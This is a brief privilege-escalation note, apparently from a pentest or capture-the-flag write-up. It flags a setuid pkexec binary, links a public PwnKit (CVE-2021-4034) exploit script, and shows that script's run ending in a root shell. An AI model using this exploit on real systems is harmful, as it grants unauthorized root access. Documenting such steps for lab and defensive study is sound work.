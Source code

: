 ```
-rwsr-xr-x 1 root root 22K Mar 27  2019 /usr/bin/pkexec  --->  Linux4.10_to_5.1.17(CVE-2019-13272)/rhel_6(CVE-2011-1485)
# link
https://github.com/Almorabea/pkexec-exploit/blob/main/CVE-2021-4034.py

python3 pwn.py 
Do you want to choose a custom payload? y/n (n use default payload)  n
[+] Cleaning pervious exploiting attempt (if exist)
[+] Creating shared library for exploit code.
[+] Finding a libc library to call execve
[+] Found a library at <CDLL 'libc.so.6', handle 7f83d3d88000 at 0x7f83d3c166a0>
[+] Call execve() with chosen payload
[+] Enjoy your root shell
# id
uid=0(root) gid=1001(julian) groups=1001(julian)
# 
```
